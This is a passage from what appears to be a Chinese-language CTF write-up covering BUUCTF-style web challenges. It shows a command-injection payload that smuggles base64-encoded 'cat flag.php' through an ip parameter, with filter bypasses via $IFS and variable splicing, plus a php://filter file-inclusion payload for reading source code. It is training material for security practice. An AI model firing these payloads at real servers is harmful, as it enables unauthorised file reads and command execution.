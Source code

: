 变量 a=fl  变量 b=ag.php  然后cat时我们使用 $b$a 将值给取出来，并拼接成flag.php





**方法三:**

这里过滤了bash，但是我们还可以使用 `sh` , payload:

```shell
/?ip=;echo$IFS$9Y2F0IGZsYWcucGhw|base64$IFS$9-d|sh;
// cat flag.php    base64=>    Y2F0IGZsYWcucGhw
```

![image-20221229161315716](https://s2.loli.net/2022/12/29/X4zGQktnHoEYNj5.png)

payload意思就是，我们先将 base64后的值 `Y2F0IGZsYWcucGhw` 作为 `base64 -d` 的输入，这时就被解码成 cat flag.php 了，然后作为 sh 脚本进行命令执行



## [极客大挑战 2019]Secret File

查看源代码，进入到 `/Archive_room.php` 中

![image-20221229161735727](https://s2.loli.net/2022/12/29/9Z7bFMQr1BfPtaD.png)

点击 secret 时使用bp抓包：

<img src="https://s2.loli.net/2022/12/29/bfBXdncum9I1YLr.png" alt="image-20221229161825235" style="zoom:25%;" />

![image-20221229161840985](https://s2.loli.net/2022/12/29/GVnMWd4bULJejhO.png)

发现了 `secr3t.php` ,我们进入这个页面：

![image-20221229161929596](https://s2.loli.net/2022/12/29/OlifJW6gdzpNEmT.png)

得到了一串代码，审计一下，发现没有过滤 `php://filter`

于是可以使用伪协议读取源代码：

payload:

```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

![image-20221229162207633](https://s2.loli.net/2022/12/29/kxCJFRYMdTlAr5L.png)

base64解码得到flag



## [极客大挑战 2019]LoveSQL

我们登录时使用bp抓包：

![image-20221229164053229](https://s2.loli.net/2022/12/29/QlZeKhOpdfqItB2.png)
